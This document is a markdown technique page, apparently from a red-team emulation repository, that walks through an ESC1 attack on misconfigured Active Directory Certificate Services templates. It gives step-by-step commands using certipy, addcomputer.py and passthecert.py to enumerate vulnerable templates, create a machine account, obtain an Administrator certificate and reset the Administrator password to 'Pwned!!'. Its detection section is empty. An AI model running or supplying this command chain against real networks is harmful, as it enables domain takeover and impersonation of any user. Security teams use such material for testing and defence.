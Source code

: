 # Certificate Template Abuse
## Summary

Certificate Template Abuse is a technique that can be used to impersonate/take control of any user in a domain given a misconfiguration in certificate templates in the Active Directory Certificate Services (ADCS). To learn more about this technique, please visit [this excellent blog post.](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

## Prerequisites

Active Directory with ADCS set up and configured. A certificate template must be created where the enrollee can specify the Subject Alternative Name (SAN), and can authenticate via the template. Further, a non-privileged account or group must be able to enroll into the template and the attacker must have control over that account or group.

## Setup

TODO

## Execution

### Method 1 - ESC1

The first step is to determine if any certificate template is vulnerable. Using the [certipy](https://github.com/ly4k/Certipy) utility, run the following command to query the ADCS service:

```bash
certipy find -u username -p password -dc-ip <ip>
```

The command should product a txt and json file. Use the `jq` command below to trim out irrelevant details:

```bash
jq '."Certificate Templates" | .[] | select(.Enabled == true) | select(."[!] Vulnerabilities" != null) | {"Template Name", "Client Authentication", "Any Purpose", "Enrollee Supplies Subject", "Permissions", "[!] Vulnerabilities"}' <certipy_output>.json
```

![JQ Output](./images/Pasted%20image%2020230718150901.png)

In this case, the "CorpVPN" template can be used in this exploit. It's important to take note of the CA used in the template, underneath the "Certificate Authorities" block.

In this example, the "Domain Computers" group is able to enroll a certificate. If the user under our control has the ability to create a user account, the following command can be used:

```bash
addcomputer.py -dc-ip <ip> -computer-pass 'Password123' -computer-name 'ComputerName' 'domain.com/username:password' -computer
-group 'CN=Domain Computers,DC=domain,DC=com'
```

![addcomputer.py](./images/Pasted%20image%2020230718145531.png)

Now, using the computer account that was just created, the following certipy command will attempt to abuse the misconfiguration and will return the certifcate and key in a pfx file for the Administrator account:

```bash
certipy req -u 'ComputerName$' -p 'Password123' -dc-ip <ip> -ca '<ASSIGNED-CA>' -template 'CorpVPN' -upn 'Administrator'
```

If the command times out, repeat several times until the output resembles the following:

![pfx file](./images/Pasted%20image%2020230718145653.png)

Some tools may not be able to handle the pfx file, so the following certipy commands will break it into the certificate and key files:

```bash
certipy cert -pfx administrator.pfx -nokey -out administrator.crt
certipy cert -pfx administrator.pfx -nocert -out administrator.key
```

Finally, using [this github repo](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python),  download the "passthecert.py" file to utilize the certificate and key to change the Administrators password:

```bash
passthecert.py -action modify_user -target administrator -new-pass 'Pwned!!' -domain 'domain.com' -dc-ip <ip> -crt administrator.crt -key administrator.key
```

![passthecert](./images/Pasted%20image%2020230718150333.png)

At this point the Administrator users password should be changed to "Pwned!!".

#### Indicators of Compromise

TODO